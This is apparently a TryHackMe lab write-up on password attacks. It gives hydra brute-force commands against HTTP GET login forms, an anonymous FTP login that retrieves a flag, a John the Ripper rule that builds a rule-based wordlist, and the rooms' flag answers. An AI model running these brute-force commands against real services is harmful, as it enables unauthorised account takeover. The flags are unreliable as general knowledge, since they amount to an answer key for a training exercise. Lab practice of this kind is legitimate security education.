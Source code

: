 ```
hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f

-l admin  single username. -L wordlist
-P path   single password -p
login-get/index.php
username=^USER^&password=^PASS^
F= false positives, invalid password
S= success conditions

```

` http://10.10.34.6/login-get/index.php `


```
ftp 10.10.34.6 
anonymous
ENTER
cd files
get flag.txt 

THM{d0abe799f25738ad739c20301aed357b}

```

you need to generate a rule-based dictionary from the wordlist `clinic.lst` in the previous task. `email: pittman@clinic.thmredteam.com` against `10.10.34.6:465` (SMTPS).
password format is as follows: ` [symbol][dictionary word][0-9][0-9].`

```
Where [symbol]=[!@]

tail -f /opt/john/john.conf
[List.Rules:THM-Password-Attacks]
Az"[0-9][0-9]" ^[!@]

john --wordlist=clinic.lst --rules=THM-Password-Attacks --stdout > dict.lst



```



  
Perform a brute-forcing attack against the phillips account for the login page at `http://10.10.34.6/login-get` using hydra? **What is the flag?**
```
hydra -l phillips -P clinic.txt 10.10.129.191 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f

# THM{33c5d4954da881814420f3ba39772644}
```

  
Perform a rule-based password attack to gain access to the burgess account. Find the flag at the following website: `http://10.10.34.6/login-post/`. What is the flag?
